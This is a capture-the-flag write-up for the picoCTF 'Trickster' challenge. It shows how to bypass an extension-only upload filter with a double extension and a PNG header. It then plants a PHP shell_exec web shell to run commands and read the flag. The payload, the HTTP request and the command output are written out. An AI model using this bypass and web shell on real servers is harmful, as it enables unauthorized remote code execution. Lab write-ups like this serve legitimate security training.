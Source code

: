 # Solution "Trickster"
This challenge focuses on exploiting File Upload Vulnerabilities to achieve Remote Code Execution (RCE).

## Step 1: Examine the Page
Begin by testing the file upload functionality:
1. Attempt to upload various file formats.
2. Observe that the page only allows PNG files to be uploaded—or so it seems🤨

## Step 2: Use Burp Suit
Since the website likely uses PHP, you can examine its behavior in detail using Burp Suite. Perform the following:

1. Monitor the GET and POST requests when uploading files:
- GET: Retrieve the page and check its contents.
- POST: Handles the file upload process.
2. Send both requests to the Repeater by right clicking on them.

## Step 3: Locate the File Upload Directory
Upload a file (e.g., my_file.png) and determine where it is saved:

- I found it in `GET /uploads/my_file.png HTTP/1.1`

## Step 4: Exploit the Vulnerability
Open the `POST` request and analyze what is going on:
```json
POST / HTTP/1.1
Host: atlas.picoctf.net:59511
/* Some stuff here */

------WebKitFormBoundaryxFd8EmLbtBxtOSTG
Content-Disposition: form-data; name="file"; filename="my_file.png"
Content-Type: image/png
```
Firstly, I tried to save a new file with a different type system, and not surprisingly got an error: `filename="my_file.php"`. But if you add to the file name '.png', surprisingly, server allows it to be uploaded: `filename="my_file.png.php"`

Since the server validates the file type only based on the extension, you can craft a malicious PHP file. To ensure it is treated as valid, include PNG in the first line:

```bash
PNG

<?php echo shell_exec('echo Directory is $(pwd)'); ?>
```

The result was: `Directory is /var/www/html/uploads`

Inside PHP, I used `shell_exec` to be able to use shell commands inside PHP code. It means that we can execute any code we want from now on! So, first thing I did was to examine files I have on the server using `ls -lha /var/www/html`, and it showed me this:
```bash
total 16K
-rw-r--r-- 1 root     root       49 Mar 12  2024 GAZWIMLEGU2DQ.txt
-rw-r--r-- 1 root     root     1.6K Feb  7  2024 index.php
-rw-r--r-- 1 root     root      415 Feb  7  2024 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7  2024 robots.txt
drwxr-xr-x 1 www-data root       71 Jan 19 16:15 uploads
```

After examining each file, we find a flag in `GAZWIMLEGU2DQ.txt` using `cat ../GAZWIMLEGU2DQ.txt`

Open it and voilà! You can see your flag.
